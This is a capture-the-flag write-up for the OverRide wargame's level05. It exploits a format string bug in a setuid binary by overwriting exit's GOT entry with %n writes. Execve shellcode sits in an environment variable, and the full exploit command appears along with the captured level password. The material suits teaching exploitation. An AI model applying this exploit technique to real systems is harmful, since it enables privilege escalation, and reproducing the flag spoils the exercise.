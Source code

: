 # 05 - Format string (2)
> README by [jchene](https://github.com/jchene)

We have a binary named level05 at /home/users/level05/

It is owned by `level06`, has a `setuid bit` and hax `NX` disabled

The program first defines some variables ask the user for a prompt

```c
int main(void)
{
    char string[100];
    unsigned int i;

    i = 0;
    fgets(string, 100, stdin);
```

Then the input is processed by a loop which performs a XOR operation on every input character contained between `A` (dec 65) and `Z` (dec 90)

```c
for (i = 0; i < strlen(string); ++i)
    {
        if (string[i] >= 'A' && string[i] <= 'Z')
            string[i] ^= 0b00100000;
    }
```

Finally, `printf` is called on the input and the programs quits using `exit`

```c
    printf(string);
    exit(0);
}
```

We can see a `format string` vulnerability on the printf but because the program exits using `exit` we won't return which means we can't override the return address of the `main` function

Let's start by finding another address that we can overwrite to jump in a shellcode

After disassembling the main function we can inspect the `exit` function

```
(gdb) disas main
   0x08048444 <+0>:     push   %ebp
   ...
   0x08048513 <+207>:   call   0x8048370 <exit@plt>
End of assembler dump.
(gdb) x/i 0x8048370
   0x8048370 <exit@plt>:        jmp    *0x80497e0
```

We can see that the first instruction of `exit` is to jump on an address contained inside `0x80497e0` so by replacing the content of this address with the start of a shellcode we can exploit this binary file

```
(gdb) set *0x80497e0=0x42424242
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Now we have to find how to overwite the address using the `printf` vulnerability

Let's first display the stack to find the memory offset of the buffer
```
level05@OverRide:~$ echo -e "abcd%x %x %x %x %x %x %x %x %x %x %x %x" | ./level05
abcd64 f7fcfac0 f7ec3add ffffd6ef ffffd6ee 0 ffffffff ffffd774 f7fdb000 64636261 25207825 78252078
```

We can see the buffer starting point at the 10th value (`64636261`) which are the hexadecimal values for `dcba`

Now we can overwrite the instruction by writing it's address inside the buffer then using `%n` to write at the address the value we need

Now we have to store a shellcode somewhere and write it's address inside the instruction

We will put the shellcode in an environment variable as such
```bash
export SHELLCODE=$(echo -ne "\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80")
```

This is the same simple shellcode that we already used in `level01` which only calls `execve(/bin//sh)`

Now we can use a small `c` program to get and print the address of the environment variable containing the shellcode

```c
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char **argv){
    if (argc != 2)
        return 1;
    printf("%p\n", getenv(argv[1]));
    return 0;
}
```

We have to upload it and compile it on the machine using as much as possible the same flags than the `level05` binary
```bash
scp -P 42421 ./level05/Ressources/getEnvAddress.c level05@$WINIP:/tmp/getEnvAddress.c
```
```bash
gcc -m32 -z execstack -fno-stack-protector --no-pie -o /tmp/getEnvAddress /tmp/getEnvAddress.c

/tmp/getEnvAddress SHELLCODE
```
```
0xffffd8e4
```

Now we have to convert this address to two integers that we will write at the instruction jump

```
FFFF = 65535
D8E4 = 55524
```

Because we have already written 8 bytes of addresses we can substract 8 to the first value which becomes `55516` then we can substract `55524` to `65535` to get the missing value
```
65535 - 55524 = 10011
```

Now we have the full payload and we have to write it at the 10th and 11th offsets

First we print the two addresses
```
\xe0\x97\x04\x08\xe2\x97\x04\x08
```

Then we print the values (`55516` and `10011`) followed by the positions in the stack (`10` and `11`) two times
```
%55516x%10$n%10011x%11$n
```

Here is the full command
```bash
(echo -ne "\xe0\x97\x04\x08\xe2\x97\x04\x08%55516x%10\$n%10011x%11\$n"; cat) | ./level05
```

Let's try it
```
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

The flag is
```
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
